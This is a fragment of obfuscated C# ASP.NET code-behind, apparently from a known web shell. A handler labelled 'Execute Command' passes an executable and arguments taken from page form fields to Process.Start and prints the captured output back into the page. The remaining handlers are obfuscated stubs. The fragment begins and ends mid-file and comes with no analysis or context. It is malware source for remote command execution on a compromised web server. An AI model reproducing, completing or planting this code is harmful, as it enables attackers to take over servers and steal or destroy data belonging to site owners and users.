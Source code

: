 }
krIR(AXSbb.Value);
}
protected void VOxn(object sender,EventArgs e)
{
WICxe();
vIac.Visible=true;
Bin_H2_Title.InnerText="Execute Command &gt;&gt;";
}
protected void FbhN(object sender,EventArgs e)
{
try
{
Process ahAE=new Process();
ahAE.StartInfo.FileName=kusi.Value;
ahAE.StartInfo.Arguments=bkcm.Value;
ahAE.StartInfo.UseShellExecute=false;
ahAE.StartInfo.RedirectStandardInput=true;
ahAE.StartInfo.RedirectStandardOutput=true;
ahAE.StartInfo.RedirectStandardError=true;
ahAE.Start();
string Uoc=ahAE.StandardOutput.ReadToEnd();
Uoc=Uoc.Replace("&lt;","&lt;");
Uoc=Uoc.Replace("&gt;","&gt;");
Uoc=Uoc.Replace("\r\n","&lt;br&gt;");
tnQRF.Visible=true;
tnQRF.InnerHtml="&lt;hr width=\"100%\" noshade/&gt;&lt;pre&gt;"+Uoc+"&lt;/pre&gt;";
}
catch(Exception error)
{
xseuB(error.Message);
}
}
protected void RAFL(object sender,EventArgs e)
{
if(qPdI.Text.Length&gt;0)
{
tpRQ(qPdI.Text);
}
else
{
lFAvw();
}
}
protected void Grxk(object sender,EventArgs e)
{
YUw();
}
protected void ilC(object sender,EventArgs e)
{
tZRH();
}
protected void HtB(object sender,EventArgs e)
{
pDVM();
}
protected void Olm(object sender,EventArgs e)
{
iLVUT();
}
protected void jXhS(object sender,EventArgs e)
{
ADCpk();
}